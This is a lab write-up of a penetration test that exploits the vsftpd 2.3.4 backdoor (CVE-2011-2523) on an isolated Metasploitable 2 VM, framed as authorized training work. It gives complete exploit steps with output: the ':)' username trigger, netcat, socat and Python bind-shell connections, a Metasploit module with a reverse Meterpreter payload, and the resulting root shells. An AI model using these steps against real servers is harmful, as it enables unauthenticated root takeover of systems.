



# VULN-001 — vsftpd 2.3.4 Backdoor Command Execution

> **CONFIRMED: CVE-2011-2523 — manual exploitation succeeded on 28 November 2026.** Backdoor triggered over FTP port 21; TCP 6200 opened and executed `id` and `whoami` as `root`. **Metasploit root Meterpreter session confirmed at 10:59:54 +0530 on 28 November 2026.**
>
> [← Project home](../../../README.md) · [← Candidate index: NET-001](../../../FINDINGS-INDEX.md#net-001) · [Lab setup](../../../lab-setup/README.md)

## 1. Finding information

| Field | Detail |
| --- | --- |
| Finding ID | `VULN-001` |
| Catalog ID | `NET-001` |
| Name | vsftpd 2.3.4 malicious backdoor |
| Categories | `BD` Backdoors · `RCE` Remote Code Execution |
| CVE | [CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523) |
| CWE | [CWE-78](https://cwe.mitre.org/data/definitions/78.html) (NVD classification); supply-chain compromise / hidden functionality is additional context |
| Published CVSS v3.1 | **9.8 Critical** ([NVD](https://nvd.nist.gov/vuln/detail/CVE-2011-2523)) |
| Target | Metasploitable 2 — `192.168.95.131` (Kali `192.168.95.128`) |
| Service | FTP, TCP 21 |
| Backdoor listener | TCP 6200 |
| Possible impact | Unauthenticated **root** command execution |
| Local validation | **Confirmed — root command execution via backdoor port 6200** |
| Manual testing | **Successful — Telnet FTP trigger + Netcat shell** |
| Metasploit testing | **Successful — root Meterpreter session 1** |
| Test date / evidence | **2026-11-28** confirmed manual exploit; [trigger screenshot](screenshots/03-Manual-FTP-Backdoor-Trigger.png), [root proof screenshot](screenshots/04-Manual-Root-Shell-Proof.png), [terminal transcript](scans/04-Manual-vsftpd-Root-Shell.txt) |

## 2. Explanation and historical incident

**vsftpd** is the *Very Secure FTP Daemon*, a file transfer server for Unix/Linux. During **June 30–July 3, 2011**, a maliciously altered copy of the `vsftpd-2.3.4.tar.gz` source archive was distributed from a compromised download site. The software author, Chris Evans, disclosed the incident on **July 3, 2011**; it became a security advisory in early July. This is a **software supply-chain compromise**, not evidence that every legitimate vsftpd 2.3.4 build was malicious.

When a vulnerable FTP service receives a username containing the sequence ` :)` (specifically, the characters `:)`), the malicious code can activate a **bind shell on TCP 6200**. An attacker reaching that listener may execute operating-system commands with root privileges without knowing a valid FTP password.

```text
Kali Linux (tester)        Metasploitable 2 (isolated target)
   FTP request  ─────────► FTP service :21
   USER lab:)   ─────────► Tampered code triggers
                           Bind shell appears on :6200
   TCP :6200    ─────────► Shell
   id            ─────────► Potential uid=0(root)
```

**Technical distinction:** a version banner saying `vsFTPd 2.3.4` is an investigation lead, not conclusive proof of the backdoored build. Test the actual behavior.

## 3. Risk and impact

The published NVD severity is **CVSS 3.1 = 9.8 (Critical)**. Exploitation can compromise **confidentiality** (read sensitive files), **integrity** (modify files or settings), and **availability** (disrupt services). The malicious bind shell bypasses normal FTP authentication. In a training lab, use only non-destructive verification commands.

## 4. Lab preparation and service discovery

**Run only from Kali against the IP address of your own isolated Metasploitable 2 VM.**

```bash
# On the Metasploitable 2 console
ifconfig

# On Kali
ip -4 addr

# In a local clone, from the project root
TARGET=<YOUR_METASPLOITABLE_2_IP>
ping -c 3 "$TARGET"
sudo nmap -sV -p 21 -oN vulnerabilities/network/VULN-001-vsftpd-backdoor/scans/01-ftp-version.nmap "$TARGET"
```

**Expected investigative clue, not observed output:**
```text
21/tcp open ftp vsftpd 2.3.4
```

**Baseline result (2026-11-27):** Nmap 7.99 reports `21/tcp open ftp vsftpd 2.3.4` and `ftp-anon: Anonymous FTP login allowed (FTP code 230)`. See the [real scan summary](../../../lab-setup/OPEN-PORTS.md). A focused FTP scan and actual screenshot remain pending; save them to `screenshots/01-ftp-enumeration.png`.

### 4.1 Focused FTP scan — actual results (28 November 2026)

**Command executed on Kali:**
```bash
sudo nmap -sV -sC -p 21 192.168.95.131
```

**Observed evidence (Nmap 7.99, 2026-11-28 10:03 +0530):**
```text
Host is up (0.0023s latency).
21/tcp open  ftp  vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
Nmap done: 1 IP address (1 host up) scanned in 2.81 seconds
```

The `ftp-syst` response additionally reports a connection from `192.168.95.128`, ASCII transfer mode, and **plaintext control and data connections**. These results are **service enumeration**, not evidence that the malicious backdoor has been activated.

**Evidence:**
- [01 — FTP discovery terminal transcript](scans/01-FTP-Service-Discovery.txt), transcribed from the user's terminal output
- **Screenshot supplied in conversation (28 November 2026)**, awaiting direct upload as `screenshots/01-FTP-Service-Discovery.png` (do not display a broken image link)
- [Full-host initial reconnaissance](../../../lab-setup/OPEN-PORTS.md)

**Current state:** Both manual and Metasploit methods confirmed root-level code execution on 28 November 2026.

### 4.2 Pre-exploitation TCP 6200 check — actual result (28 November 2026)

**Kali command executed:**

```bash
nc -nvz 192.168.95.131 6200
```

**Observed output:**

```text
(UNKNOWN) [192.168.95.131] 6200 (?) : Connection refused
```

**Interpretation:** TCP 6200 was **not accepting connections** at the time of this check, before any documented backdoor trigger. This is a useful baseline, **not evidence that CVE-2011-2523 is present or absent**. The next step is normal FTP enumeration on port 21.

**Evidence:** [Pre-exploit TCP 6200 terminal output](scans/02-Pre-Exploit-Port-6200-Check.txt). The original screenshot was supplied in the conversation on 28 November 2026; a GitHub image link will be added only after a binary upload is confirmed.

### 4.3 Anonymous FTP enumeration — actual result (28 November 2026)

**General command:** `ftp -inv <TARGET_IP>`  
**Command used on Kali:** `ftp -inv 192.168.95.131`

**Observed commands and significant replies:**

```text
220 (vsFTPd 2.3.4)
ftp> user anonymous anonymous@example.com
331 Please specify the password.
230 Login successful.
ftp> pwd
Remote directory: /
ftp> ls
229 Entering Extended Passive Mode (|||24487|).
150 Here comes the directory listing.
226 Directory send OK.
ftp> quit
221 Goodbye.
```

**Interpretation:** Anonymous FTP login was **confirmed successful** (`230`). The working directory was `/`; the directory listing completed successfully (`226`) but **no files or directories were displayed** in this session. This demonstrates anonymous access, **not file upload permissions or exploitation of CVE-2011-2523**.

**Real screenshot evidence:** [02-FTP-Enumeration.png](screenshots/02-FTP-Enumeration.png) — compressed PNG representation of the supplied original screenshot, with no synthetic terminal output.



**Terminal transcription:** [03-Anonymous-FTP-Enumeration.txt](scans/03-Anonymous-FTP-Enumeration.txt).

**Next step:** Manually trigger the backdoor on TCP 21 and independently check whether TCP 6200 opens on the isolated training VM.

## 5. Confirmed manual exploitation — Telnet + Netcat (28 November 2026)

**Actual workflow executed on Kali** against the authorized isolated Metasploitable 2 target `192.168.95.131`:

### 5.1 Before triggering — TCP 6200 refused connections

```bash
nc -nvz 192.168.95.131 6200
```
```text
(UNKNOWN) [192.168.95.131] 6200 (?) : Connection refused
```

### 5.2 Trigger the backdoor through FTP port 21

```bash
telnet 192.168.95.131 21
```
```text
Connected to 192.168.95.131.
220 (vsFTPd 2.3.4)
USER lab:)
331 Please specify the password.
PASS test
```

The supplied screenshot ends after `PASS test`; no subsequent FTP reply is visible. The username's `:)` is the historical backdoor trigger.


[View original-terminal screenshot evidence, cropped and converted to black/white for readability](screenshots/03-Manual-FTP-Backdoor-Trigger.png)

### 5.3 Connect to the opened bind shell (Netcat)

```bash
nc -nv 192.168.95.131 6200
```

**Actual observed results:**

```text
(UNKNOWN) [192.168.95.131] 6200 (?) open
id
uid=0(root) gid=0(root)
whoami
root
ls
bin
boot
cdrom
dev
etc
home
...
```

The screenshot also shows other system-directory names. **Root privileges were verified** using actual `id` and `whoami` output. No command to create users, alter files, download secrets, or establish persistence is visible.



[View root-shell proof screenshot](screenshots/04-Manual-Root-Shell-Proof.png) · [Read the transcribed exploitation output](scans/04-Manual-vsftpd-Root-Shell.txt)

### 5.4 Validation conclusion

**Confirmed:** The observed pre-trigger refusal on TCP 6200, subsequent FTP trigger with `USER lab:)`, successful TCP 6200 connection, and `uid=0(root)` establish successful manual exploitation of the vsftpd 2.3.4 backdoor in this isolated VM.

**Impact demonstrated:** Unauthenticated remote command execution with root privileges. The potential impact includes complete confidentiality, integrity and availability compromise; this controlled demonstration did **not** test data theft, persistence, service disruption, or lateral movement.

**Method limitations:** This confirms the Telnet + Netcat path only. The Python, Socat, Nmap NSE, and Metasploit alternatives are **not yet tested**.

### 5.5 Manual method steps for reproduction

General commands, where `<TARGET_IP>` is the private VM address:

```bash
telnet <TARGET_IP> 21
# Enter at the FTP prompt:
# USER lab:)
# PASS test
```

In a second Kali terminal:

```bash
nc -nv <TARGET_IP> 6200
# Then: id, whoami
```

**Reset the target VM from a snapshot before attempting a different method**, to prevent an existing bind shell from being mistaken for a newly triggered backdoor.

## 6. Manual exploitation — Method B: Netcat

To ensure FTP commands contain the proper CRLF line endings:

```bash
printf 'USER lab:)\r\nPASS test\r\n' | nc -nv -w 4 "$TARGET" 21
```

Then connect to the newly created shell listener:

```bash
nc -nv "$TARGET" 6200
```

Enter `id`, `whoami`, `hostname`, and `exit` interactively. A blank prompt can be normal for this raw command shell.

## 7. Manual exploitation — Method C: Python 3 sockets

Python reproduces the FTP protocol interaction directly, without Metasploit:

```bash
python3 vulnerabilities/network/VULN-001-vsftpd-backdoor/scripts/manual_vsftpd_backdoor.py "$TARGET"
```

See [the reviewed Python source](scripts/manual_vsftpd_backdoor.py). It sends the backdoor trigger, checks TCP 6200 and runs only `id`. It does not upload files, persist access, or alter the target. Verify the output yourself.

## 8. Manual exploitation — Method D: Socat / raw TCP clients

If `socat` is installed, it can be used like Telnet or Netcat:

```bash
socat - TCP:"$TARGET":21
```

Type `USER lab:)` and `PASS test`. In a second Kali terminal:

```bash
socat - TCP:"$TARGET":6200
```

Enter `id` and `exit`. **FTP clients and TCP libraries are different ways to trigger the same backdoor**, not separate CVEs.

## 9. Automated validation without Metasploit — Nmap NSE

Nmap has an official script which **actively triggers and checks the backdoor**, running a harmless `id` command. Unlike a simple version scan, this is an **intrusive validation test**, so use it only on your VM.

```bash
sudo nmap -p 21 --script ftp-vsftpd-backdoor \
  -oN vulnerabilities/network/VULN-001-vsftpd-backdoor/scans/02-nse-validation.nmap "$TARGET"
```

If the script reports `VULNERABLE (Exploitable)` and shows actual `uid=` output, preserve the result. [Nmap script documentation](https://nmap.org/nsedoc/scripts/ftp-vsftpd-backdoor.html).

## 10. Metasploit Framework — successful independent validation (28 November 2026)

**Result: CONFIRMED — a Meterpreter session opened and `getuid` returned `root`.**

### 10.1 Prior check and module selection

The tester first confirmed that TCP 6200 was not accepting connections after the target reset.



The matching Metasploit module was selected:
```text
msfconsole -q
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.95.131
set RPORT 21
show targets
show options
```

The tester's installed framework displayed only **Target 0: Linux/Unix Command**; the selected payload was `cmd/linux/http/x86/meterpreter_reverse_tcp`. No additional target was assumed.

### 10.2 Configured options

| Option | Verified setting |
| --- | --- |
| `RHOSTS` | `192.168.95.131` |
| `RPORT` | `21` |
| `TARGET` | `0 — Linux/Unix Command` |
| `PAYLOAD` | `cmd/linux/http/x86/meterpreter_reverse_tcp` |
| `FETCH_COMMAND` | `CURL` |
| `FETCH_SRVPORT` | `8080` |
| `LHOST` | `192.168.95.128` (Kali) |
| `LPORT` | `4444` |

The tester set and reviewed the reverse connection address and port:

```text
set LHOST 192.168.95.128
set LPORT 4444
show options
run
```


Previous `show options` values were transcribed from the supplied Kali screenshot in [05-Metasploit-Show-Options.txt](scans/05-Metasploit-Show-Options.txt).

### 10.3 Actual exploitation result

The screenshot displays the following important output:

```text
[*] Started reverse TCP handler on 192.168.95.128:4444
[*] 192.168.95.131:21 - Running automatic check
[+] 192.168.95.131:21 - The target appears to be vulnerable
[+] 192.168.95.131:21 - Backdoor has been spawned!
[*] Meterpreter session 1 opened (192.168.95.128:4444 -> 192.168.95.131:40449) at 2026-11-28 10:59:54 +0530
meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : metasploitable.localdomain
OS           : Ubuntu 8.04 (Linux 2.6.24-16-server)
Architecture : i686
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > pwd
/
meterpreter > ls
Listing: /
```

The directory listing in the original screenshot includes `bin`, `boot`, `dev`, `etc`, `home`, and `root`. The demonstration did not require collecting private file contents or changing accounts.


**Image note:** Uploaded screenshot is a cropped monochrome representation of the original Kali terminal image; all visible terminal text comes from the actual session.

### 10.4 Metasploit impact and conclusion

**Confirmed:** The Metasploit exploit triggered the vsftpd backdoor, established Meterpreter session 1, and executed commands with **root** privileges. The demonstration independently corroborates the earlier successful Telnet/Netcat validation.

**Special note:** Although a modern fetch-delivered Meterpreter payload may be incompatible with some very old Linux systems, **this payload worked on this user's actual lab configuration**. Record actual evidence instead of assuming a historical compatibility limitation will always cause failure.

**Scope:** No persistence, additional target discovery, credential dumping, or destructive actions were documented. Restore the vulnerable VM snapshot after the exercise.

## 11. Troubleshooting

| Symptom | Possible explanation / next step |
| --- | --- |
| TCP 21 closed | Wrong VM IP, network isolation mismatch, or FTP service not running |
| Banner not vsftpd 2.3.4 | Different FTP service/build; verify before proceeding |
| Port 6200 closed | Trigger didn't activate, listener closed, firewall or target mismatch |
| Port 6200 already open | Earlier exploit may have left the shell listening; connect carefully or reset VM |
| Shell connects but shows no prompt | Raw bind shells often have no friendly prompt; enter `id` |
| Metasploit runs but no session | Inspect `show targets` and prefer `Backdoor Command Shell` (usually target 1), rather than legacy-incompatible Meterpreter fetch |
| `cmd/unix/interact` not valid | Select the `Backdoor Command Shell` target first; an older module may lack this target |
| Nmap NSE succeeds but manual fails | Script may have triggered and consumed an existing single-use listener; reset before another attempt |

## 12. Remediation / verification

In a genuine environment: remove compromised binaries, reinstall from a trusted and integrity-verified source, check build/package provenance, rotate credentials if exposure is suspected, investigate possible compromise and unauthorized ports, restrict FTP access, and prefer maintained encrypted transfer alternatives (such as SFTP). For this lab, preserve vulnerability evidence and restore the VM snapshot after testing.

## 13. Screenshot and evidence checklist

The report embeds the available real evidence **in the order it was collected**:

| Step | Screenshot / record | Status |
| --- | --- | --- |
| 1. Service discovery | `01-FTP-Service-Discovery.png` | Screenshot supplied, GitHub image pending |
| 2. Port 6200 baseline | [`02-Pre-Exploit-Port-6200.png`](screenshots/02-Pre-Exploit-Port-6200.png) | Uploaded |
| 3. Anonymous FTP enumeration | [`02-FTP-Enumeration.png`](screenshots/02-FTP-Enumeration.png) | Uploaded |
| 4. Manual trigger | [`03-Manual-FTP-Backdoor-Trigger.png`](screenshots/03-Manual-FTP-Backdoor-Trigger.png) | Uploaded |
| 5. Manual root-shell proof | [`04-Manual-Root-Shell-Proof.png`](screenshots/04-Manual-Root-Shell-Proof.png) | Uploaded |
| 6. Metasploit module/targets | `05-Metasploit-Module-and-Targets.png` | Screenshot supplied, GitHub image pending |
| 7. Initial Metasploit options | `06-Metasploit-Options-Before-LHOST.png` | Screenshot supplied, GitHub image pending |
| 8. LHOST/LPORT configuration | [`07-Metasploit-LHOST-LPORT-Commands.png`](screenshots/07-Metasploit-LHOST-LPORT-Commands.png) | Uploaded |
| 9. Final Metasploit options | `08-Metasploit-Configured-Options.png` | Screenshot supplied, GitHub image pending |
| 10. Root Meterpreter session | [`09-Metasploit-Root-Session.png`](screenshots/09-Metasploit-Root-Session.png) | Uploaded |

**Terminal evidence:** [FTP discovery](scans/01-FTP-Service-Discovery.txt) · [Port 6200 baseline](scans/02-Pre-Exploit-Port-6200-Check.txt) · [Anonymous FTP](scans/03-Anonymous-FTP-Enumeration.txt) · [Manual root shell](scans/04-Manual-vsftpd-Root-Shell.txt) · [Metasploit pre-exploit options](scans/05-Metasploit-Show-Options.txt).

Screenshots are derived from the tester's original uploads, with high-contrast cropping/compression for legibility. No simulated console output is presented as evidence.

## 14. References

1. [NVD — CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523)
2. [Rapid7 — Metasploitable 2 exploitability guide](https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide/)
3. [HKCERT — 2011 compromised vsftpd source package bulletin](https://www.hkcert.org/security-bulletin/vsftpd-compromised-source-packages-backdoor-vulnerability)
4. [Nmap — ftp-vsftpd-backdoor NSE documentation](https://nmap.org/nsedoc/scripts/ftp-vsftpd-backdoor.html)
5. [Rapid7 — Metasploit vsftpd module source](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/ftp/vsftpd_234_backdoor.rb)
6. [Metasploit issue #21780 — modern payload incompatibility](https://github.com/rapid7/metasploit-framework/issues/21780)
7. [Metasploit PR #21792 — proposed compatibility fix (not merged)](https://github.com/rapid7/metasploit-framework/pull/21792)
8. [Original author's historical disclosure](https://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html)

---

**FINAL RESULT: CONFIRMED — CRITICAL (2026-11-28).** Both manual Telnet/Netcat and Metasploit independently demonstrated root-level remote command execution.
